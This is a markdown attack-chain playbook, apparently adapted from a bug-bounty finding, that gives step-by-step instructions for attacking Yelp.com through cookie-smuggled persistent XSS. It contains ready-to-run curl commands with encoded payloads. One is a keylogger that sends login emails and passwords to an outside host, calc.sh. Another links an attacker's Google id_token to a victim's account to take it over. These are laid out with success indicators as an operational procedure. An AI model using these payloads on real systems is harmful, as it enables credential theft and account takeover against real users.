

---
tags:
  - xss
  - cookie-smuggling
  - keylogger
  - account-takeover
  - google-oauth
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/CyberChef]]'
  - '[[tools/Browser-Dev-Tools]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Credential Access]]'
  - '[[Impact]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-Reflected-XSS-in-Cookie-Reflection]]'
  - '[[procedures/Exploit-Cookie-Parsing-Flaw-for-Payload-Smuggling]]'
  - '[[procedures/Deploy-Persistent-Keylogger-for-Credential-Theft]]'
  - '[[procedures/Perform-Account-Takeover-via-Google-Linking]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
  - '[[Keylogging]]'
  - '[[Account Manipulation]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:33:34.349Z'
description: >-
  A multi-stage attack exploiting reflected XSS in the 'guvo' cookie combined
  with a cookie parsing flaw to smuggle malicious payloads, enabling persistent
  keyloggers for credential theft and unauthorized Google account linking for
  account takeover on Yelp.com.
skill_level: intermediate
impact_level: high
id: 513f804b-f44a-43d8-b6e3-c2d0d5b29557
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Credential Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Keylogging]]'
  - '[[Account Manipulation]]'
  - '[[Exploit Public-Facing Application]]'
---
# Persistent XSS via Cookie Smuggling for Credential Theft and Google Account Takeover on Yelp

Multi-stage attack chain exploiting a reflected XSS vulnerability in the 'guvo' cookie on Yelp.com, combined with a backend cookie parsing flaw that splits cookies by spaces instead of semicolons. This allows smuggling of malicious JavaScript payloads into the 'guvo' cookie via the 'yelpmainpaastacanary' cookie set through the '?canary=' query parameter. The attack enables persistent XSS for deploying keyloggers to steal login credentials on biz.yelp.com/login or linking an attacker's Google account to a victim's Yelp account, resulting in account takeover (ATO).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/CyberChef]]
- [[tools/Browser-Dev-Tools]]

### Target Environment

- Web platform: *.yelp.com domains (www.yelp.com, biz.yelp.com/login)
- Services: Google OAuth for account linking
- Tech stack: JavaScript-based web application
- Network access: Direct HTTP/HTTPS access to Yelp.com (no authentication required for initial setup)

### Initial Access Requirements

- No prior credentials needed; attack relies on tricking victim into visiting a crafted URL
- Attacker must have a Google account for id_token generation
- Victim must visit phishing link leading to cookie setting on *.yelp.com

## Detailed Attack Procedures

### Step 1: Discovery of XSS Reflection
procedure: [[procedures/Discover-Reflected-XSS-in-Cookie-Reflection]]

**Objective**: Identify the unescaped reflection of the 'guvo' cookie in JavaScript objects on Yelp pages, confirming the XSS vulnerability.

**Instructions**: Use [[tools/Browser-Dev-Tools]] to inspect window objects and [[tools/Burp-Suite]] to manipulate cookies. Set a test 'guvo' cookie value like "<script>alert(1)</script>" and load www.yelp.com or biz.yelp.com/login to observe reflection in window.ySitRepParams or window.yelp.guv.

**Expected Output**: Alert pops up or malicious script executes on page load, confirming unescaped reflection.

**Success Indicators**:
- Script execution in browser console
- Reflection visible in dev tools without escaping

### Step 2: Cookie Smuggling Setup
procedure: [[procedures/Exploit-Cookie-Parsing-Flaw-for-Payload-Smuggling]]

**Objective**: Leverage the cookie parsing flaw to smuggle a malicious 'guvo' payload inside the 'yelpmainpaastacanary' cookie via query parameter, enabling persistent XSS.

**Instructions**: Craft a URL with '?canary=asdf guvo=<payload>' where space acts as separator due to backend flaw. For persistence, append '; Max-Age=99999999'. Visit the URL in browser to set the cookie.

Use [[commands/set-canary-cookie-smuggling]] for basic smuggling:

```bash
curl "https://www.yelp.com/?canary=asdf%20guvo%3D%3C%2Fscript%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E" -c cookies.txt
```

For persistence, use [[commands/set-persistent-canary-cookie]]:

```bash
curl "https://www.yelp.com/?canary=asdf%20guvo%3D%3C%2Fscript%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E%3B%20Max-Age%3D99999999" -c cookies.txt
```

**Expected Output**: Set-Cookie header with smuggled 'guvo' value; XSS triggers on subsequent page loads.

**Success Indicators**:
- Cookie set in browser storage
- XSS payload executes persistently

### Step 3: Deploy Keylogger for Credential Theft
procedure: [[procedures/Deploy-Persistent-Keylogger-for-Credential-Theft]]

**Objective**: Inject a base64-encoded JavaScript keylogger via smuggled cookie to capture email/password on biz.yelp.com/login and exfiltrate to attacker's server.

**Instructions**: Use [[tools/CyberChef]] to minify, base64-encode, and URL-encode the keylogger JS. Then craft the canary URL with the encoded payload. Victim visits the phishing link to install the cookie.

Encode payload using [[commands/encode-keylogger-payload]] in CyberChef, then deploy with [[commands/deploy-keylogger-url]]:

```bash
curl "https://yelp.com/?canary=asdf%20guvo%3D%3C%2Fscript%3E%3Cscript%3Eeval(atob('c2V0VGltZW91dCgoZnVuY3Rpb24oKXtmdW5jdGlvbiBlKCl7ZmV0Y2goYGh0dHBzOi8vY2FsYy5zaC8%2FYT0ke2VuY29kZVVSSUNvbXBvbmVudChhLnZhbHVlKX0mYj0ke2VuY29kZVVSSUNvbXBvbmVudChiLnZhbHVlKX1gKX1hPWRvY3VtZW50LmdldEVsZW1lbnRzQnlOYW1lKCJwYXNzd29yZCIpWzBdLGI9ZG9jdW1lbnQuZ2V0RWxlbWVudHNCeU5hbWUoImVtYWlsIilbMF0sYS5mb3JtLm9uY2xpY2s9ZSxhLm9uY2hhbmdlPWUsYi5vbmNoYW5nZT1lLGEub25pbnB1dD1lLGIub25pbnB1dD1lfSksMWUzKTs%3D'))%3C%2Fscript%3E%3BMax-Age%3D99999999" -c cookies.txt
```

**Expected Output**: Keylogger activates on login page; credentials sent to https://calc.sh/ on input events.

**Success Indicators**:
- Fetch requests to attacker's domain with encoded credentials
- Cookie persists across sessions

### Step 4: Perform Account Takeover via Google Linking
procedure: [[procedures/Perform-Account-Takeover-via-Google-Linking]]

**Objective**: Use smuggled XSS to extract CSRF token and POST attacker's Google id_token to link accounts, enabling ATO.

**Instructions**: First, generate id_token by linking attacker's Google account via /profile_sharing and intercept with [[tools/Burp-Suite]]. Encode ATO JS payload in [[tools/CyberChef]], then deploy via canary URL. Victim visits to trigger linking.

Use [[commands/generate-id-token]] in Burp, then [[commands/deploy-ato-payload]]:

```bash
curl "https://yelp.com/?canary=asdf%20guvo%3D%3C%2Fscript%3E%3Cscript%3Eeval(atob('YT1uZXcgWE1MSHR0cFJlcXVlc3QsYS5hZGRFdmVudExpc3RlbmVyKCJsb2FkIiwoZnVuY3Rpb24oKXtyeD0vIkdvb2dsZUNvbm5lY3QiOiAiKFteIl0qKS8saWRfdG9rZW49ImV5SmhiR2NpT2lKU1V6STFOaUlzSW10cZpDSTZJall3T0ROa1pEVTVPREUyTnpObU5qWXhabVJsT1dSaHpUWTBObUkyWmpBek9EQmhNREUwTldNaUxDSjBlWEFpT2lKS1YxUWlmUS5leUpwYzNNaU9pSm9kSFJ3Y3pvdkwyRmpZMjkxYm5SekxtZHZiMmRzWlM1amIyMGlMQ0p1WW1ZaU9qRTJPRFUzTVRBeE5qRXNJbUYxWkNJNklqWTVPVFk1TVRnNU5UY3hNUzEyYlRKck9HVm5Zak15TjJoeE0yd3dZVGRqY25OcU1HOHliemxzWlc0Mk1TNWhjSEJ6TG1kdmIyZHNaWFZ6WlhKamIyNTBaVzUwTG1OdmJTSXNJbk4xWWlJNklqRXdOREEwTVRBMU16a3lNalE1TkRZM01qRXhOeUlzSW1WdFlXbHNJam9pWkc5dlpHRmtkV2QxWTBCbmJXRnBiQzVqYjIwaUxDSmxiV0ZwYkY5MlpYSnBabWxsWkNJNmRISjFaU3dpWVhwd0lqb2lOams1TmpreE9EazFOekV4TFhadE1tczRaV2RpTXpJM2FIRXpiREJoTjJOeWMyb3diekp2T1d4bGJqWXhMbUZ3Y0hNdVoyOXZaMnhsZFhObGNtTnZiblJsYm5RdVkyOXRJaXdpYm1GdFpTSTZJa1JoWkdVZ1RYVnljR2g1SWl3aWNHbGpkSFZ5WlNJNkltaDBkSEJ6T2k4dmJHZ3pMbWR2YjJkc1pYVnpaWEpqYjI1MFpXNTBMbU52YlM5aEwwRkJZMGhVZEdaR1ZsUkZTVTVmYzNWVlYwMUNUbXBqU0dGRVdIZzNUREpsYkhGUU1UVndOR2hMYWtzeFBYTTVOaTFqSWl3aVoybDJaVzVmYm1GdFpTSTZJa1JoWkdVaUxDSm1ZVzFwYkhsZmJtRnRaU0k2SWsxMWNuQm9lU0lzSW1saGRDSTZNVFk0TlRjeE1EUTJNU3dpWlhod0lqb3hOamcxTnpFME1EWXhMQ0pxZEdraU9pSm1Oell5WkRabFpqRXlabUZrTmpJNVltRTRZVFk1T0dGaE1ETmhNR00zTnpVNE16WXdZV1V4SW4wLkstWGNhQUJWaFV2LVdtY3BITENFYURrNXJlWVdIMDdBYjFRa1V4aGFHYk5RWXp0MTRWaVBtMnliaUlnSlVLaHl1d0p6ekFqbGxKdnRyVjJfTnJVWm5RMHZBX3Y3UHVLTzlHUVZoNzJuWXg1c1duNkxqTXN1V0xoNWQyNFZrLVJ5MUNxQ194czJqRWVoMDNlbXNaLTFHaGFfLUFCd2xiQ0RINXlxZWVwTmtoMkVhWVo3Y0tWc1VVeG5JanBYS3JPN3hTN3pQN2FCeXQwbUhBMWdVU2VpLTRhYWxfUFZLNHpJR2EyR3l2TENUUTNmcXNlRHo3RkNyUVlPLTNILVZLOU8yTmlCWVpjemJ6X3ZMb1JRdEFTZVJnYmo1alFVdEVEamZ6SzhNVFZndldQVmozRVp2dDRCYmQwY3Bfb0ZtcEwxV2pNeUI5bVR0T0tCU00zRGFXZExOZyIsYj1yeC5leGVjKHRoaXMucmVzcG9uc2VUZXh0KSxmZXRjaCgiaHR0cHM6Ly93d3cueWVscC5kay9nb29nbGVfY29ubmVjdC9yZWdpc3RlciIse21ldGhvZDoiUE9TVCIsYm9keTpuZXcgVVJMU2VhcmNoUGFyYW1zKHtpZF90b2tlbjppZF90b2tlbixjc3JmdG9rOmJbMV19KX0pfSkpLGEub3BlbigiR0VUIiwiaHR0cHM6Ly93d3cueWVscC5kay9wcm9maWxlX3NoYXJpbmciKSxhLnNlbmQoKTs%3D'))%3C%2Fscript%3E%3BMax-Age%3D99999999" -c cookies.txt
```

Follow with POST to https://www.yelp.dk/google_connect/register using [[commands/post-google-register]] with captured id_token and csrftok.

**Expected Output**: Successful account linking; attacker gains access to victim's Yelp account via Google.

**Success Indicators**:
- 200 OK on POST to /google_connect/register
- Victim's Yelp profile shows linked Google account

## Attack Chain Summary

### Key Achievements

1. Persistent XSS via cookie smuggling without direct cookie access
2. Credential theft through keylogger on login page
3. Unauthorized Google account linking for seamless ATO

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript (XSS execution)
- [[Keylogging]] Keylogging (credential capture via input events)
- [[Account Manipulation]] Account Manipulation (Google linking)
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application (web vuln exploitation)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (phishing link delivery)
- [[Execution]] Execution (JS payload run)
- [[Credential Access]] Credential Access (keylogger exfil)
- [[Impact]] Impact (ATO via linking)

---

*Last updated: 2023-10-01T00:00:00Z*
